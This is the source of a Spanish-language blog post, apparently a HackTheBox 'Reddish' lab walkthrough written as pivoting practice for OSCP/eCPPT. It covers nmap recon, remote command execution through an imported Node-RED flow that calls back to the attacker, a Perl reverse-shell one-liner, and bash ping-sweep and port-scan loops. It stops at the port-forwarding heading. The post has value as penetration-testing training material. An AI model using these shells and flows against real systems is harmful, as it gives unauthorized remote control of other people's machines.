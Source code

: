 ```yaml
---
layout: post
title:  "[eCPPT/OSCP Style] - Pivoting Reddish"
date:   2021-10-17 09:29:20 +0700
categories: jekyll update
---
```

<figure>
<img src="reddishlogo.png" alt="reddishlogo">
</figure>

Este walkthrough muestra el paso a paso para explotar un laboratorio de hackthebox (Reddish), utilizado como entrenamiento para preparar el examen de OSCP o eCPTT especificamente para el skill de pivoting.

Conectar VPN de Hackthebox `sudo openvpn 5pok.ovpn` y realizar un ping a la maquina vulnerable `ping -c 1 10.10.10.94`


# Recon 
### Nmap
Utilizar [nmap][nmap] para empezar la fase de recon.

{% highlight bash %}
nmap -sT -p- --min-rate 5000 -oA nmap/alltcp 10.10.10.94

Nmap scan report for 10.10.10.94
Host is up (0.023s latency).
Not shown: 65534 closed ports
PORT     STATE SERVICE
1880/tcp open  vsat-control

# Nmap done at Sat Jul 21 17:28:24 2018 -- 1 IP address (1 host up) scanned in 11.21 seconds

nmap -p 1880 -sC -sV -oA nmap/port1880 10.10.10.94

Nmap scan report for 10.10.10.94
Host is up (0.018s latency).

PORT     STATE SERVICE VERSION
1880/tcp open  http    Node.js Express framework
|_http-title: Error

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Jul 21 17:37:09 2018 -- 1 IP address (1 host up) scanned in 12.71 seconds
{% endhighlight %}  

### NodeRed - p:1880

Solo tenemos un puerto abierto. Así que lo abri en el browser, me mostro un error de método GET.

<figure>
<img src="1.png" alt="1">
</figure>

Capture la request con burp suite y cambié la solicitud a POST y obtuve una respuesta. Contiene un ID y un path. Podemos acceder a esa ruta solo con un ID. Es un servicio [Node-RED][nodered]

<figure>
<img src="2.png" alt="2">
</figure>

# Code Execution / Shell in Node-Red

Deberia quedar un flujo asi:

<figure>
<img src="3.png" alt="3">
</figure>

Tambien existe otra forma, importando el siguiente codigo (modificando el host 10.10.X.X)


{% highlight json %}
[
  { "id": "7235b2e6.4cdb9c", "type": "tab", "label": "Flow 1" },
  {
    "id": "d03f1ac0.886c28",
    "type": "tcp out",
    "z": "7235b2e6.4cdb9c",
    "host": "",
    "port": "",
    "beserver": "reply",
    "base64": false,
    "end": false,
    "name": "",
    "x": 786,
    "y": 350,
    "wires": []
  },
  {
    "id": "c14a4b00.271d28",
    "type": "tcp in",
    "z": "7235b2e6.4cdb9c",
    "name": "",
    "server": "client",
    "host": "10.10.XX.XX",
    "port": "3488",
    "datamode": "stream",
    "datatype": "buffer",
    "newline": "",
    "topic": "",
    "base64": false,
    "x": 281,
    "y": 337,
    "wires": [["4750d7cd.3c6e88"]]
  },
  {
    "id": "4750d7cd.3c6e88",
    "type": "exec",
    "z": "7235b2e6.4cdb9c",
    "command": "",
    "addpay": true,
    "append": "",
    "useSpawn": "false",
    "timer": "",
    "oldrc": false,
    "name": "",
    "x": 517,
    "y": 362.5,
    "wires": [["d03f1ac0.886c28"], ["d03f1ac0.886c28"], ["d03f1ac0.886c28"]]
  }
]
{% endhighlight %}  

{% highlight bash %}
root@kali# nc -lnvp 3488
listening on [any] 3488 ...
connect to [10.10.14.14] from (UNKNOWN) [10.10.10.94] 51766
> id
uid=0(root) gid=0(root) groups=0(root)

> pwd
/node-red

> ls /home
node

> ls /home/node
{% endhighlight %}

Luego abrir una reverse shell con perl, ya que la maquina virtual no posee python, nc, etc

{% highlight perl %}
perl -e 'use Socket;$i="10.10.14.30";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
{% endhighlight %}

<figure>
<img src="4.png" alt="4">
</figure>

# NODERED -> CONTAINER TWO (AKA WWW)
### Local Enumeration

{% highlight bash %}
# ip addr
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
9: eth1@if10: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default 
    link/ether 02:42:ac:13:00:03 brd ff:ff:ff:ff:ff:ff
    inet 172.19.0.3/16 brd 172.19.255.255 scope global eth1
       valid_lft forever preferred_lft forever
11: eth0@if12: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default 
    link/ether 02:42:ac:12:00:02 brd ff:ff:ff:ff:ff:ff
    inet 172.18.0.2/16 brd 172.18.255.255 scope global eth0
       valid_lft forever preferred_lft forever
{% endhighlight %}

Podemos ver que estamos dentro de un contenedor.

<figure>
<img src="5.png" alt="5">
</figure>

### Network Enumeration

Utilizaremos un one piner para ver los host que estan activos dentro de la red.

{% highlight bash %}
# for i in $(seq 1 20); do (ping -c 1 172.18.0.$i | grep "bytes from"); done
64 bytes from 172.18.0.1: icmp_seq=1 ttl=64 time=0.065 ms
64 bytes from 172.18.0.2: icmp_seq=1 ttl=64 time=0.032 ms
# for i in $(seq 1 20); do (ping -c 1 172.19.0.$i | grep "bytes from"); done
64 bytes from 172.19.0.1: icmp_seq=1 ttl=64 time=0.106 ms
64 bytes from 172.19.0.2: icmp_seq=1 ttl=64 time=0.088 ms
64 bytes from 172.19.0.3: icmp_seq=1 ttl=64 time=0.170 ms
64 bytes from 172.19.0.4: icmp_seq=1 ttl=64 time=0.022 ms
{% endhighlight %}

Ahora tenemos dos nuevos host

<figure>
<img src="6.png" alt="6">
</figure>

Port scan en bash

{% highlight bash %}
# bash -c 'for p in $(seq 1 10000); do(echo test >/dev/tcp/172.19.0.2/$p && echo "$p open") 2>/dev/null; done'
6379 open
# bash -c 'for p in $(seq 1 10000); do(echo test >/dev/tcp/172.19.0.4/$p && echo "$p open") 2>/dev/null; done'
80 open
{% endhighlight %}

# Pivoting 
### Port Forwarding






[nmap]: https://github.com/nmap/nmap
[nodered]: https://quentinkaiser.be/pentesting/2018/09/07/node-red-rce/

